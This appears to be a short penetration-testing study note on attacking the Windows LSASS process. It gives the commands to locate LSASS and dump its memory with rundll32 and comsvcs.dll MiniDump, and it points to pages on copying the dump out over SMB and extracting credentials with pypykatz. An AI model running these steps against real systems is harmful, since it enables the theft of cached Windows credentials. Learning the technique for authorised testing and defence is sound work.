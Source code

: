 # Attacking LSASS

* \
  Upon initial logon, LSASS will:
  * Cache credentials locally in memory
  * Create [access tokens](https://docs.microsoft.com/en-us/windows/win32/secauthz/access-tokens)
  * Enforce security policies
  * Write to Windows [security log](https://docs.microsoft.com/en-us/windows/win32/eventlog/event-logging-security)

### Dumping LSASS Process Memory

#### Task Manager Method

<figure><img src="../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* A file called `lsass.DMP` is created and saved in:

```cmd-session
C:\Users\loggedonusersdirectory\AppData\Local\Temp
```

* to copy files use
  * [Create SMB server Linux (HACK)](app://obsidian.md/Create%20SMB%20server%20Linux%20\(HACK\))

#### Rundll32.exe & Comsvcs.dll Method

* modern anti-virus tools recognize this method as malicious activity.
* Before issuing the command to create the dump file, we must determine what process ID (`PID`) is assigned to `lsass.exe`.
* This can be done from cmd or PowerShell:

**Finding LSASS PID in cmd**

```cmd-session
tasklist /svc
```

**Finding LSASS PID in PowerShell**

```powershell-session
Get-Process lsass
```

**Creating lsass.dmp using PowerShell**

```powershell-session
rundll32 C:\windows\system32\comsvcs.dll, MiniDump 672 C:\lsass.dmp full
```

* to copy files use
  * [create-smb-server-linux-hack.md](create-smb-server-linux-hack.md "mention")

### Using Pypykatz to Extract Credentials

* [pypykatz.md](pypykatz.md "mention")
